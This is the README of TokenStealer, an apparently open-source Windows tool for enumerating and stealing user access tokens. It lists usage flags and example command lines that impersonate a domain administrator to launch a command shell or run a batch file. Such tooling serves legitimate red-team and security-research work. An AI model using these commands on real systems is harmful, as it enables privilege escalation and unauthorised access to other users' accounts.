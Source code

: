 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all users token<br>
         -e: list all users token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]<br>
         -p: users token from specfic  process pid<br>
         -u: impersonate token of user <user> <br>
         -c: command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>

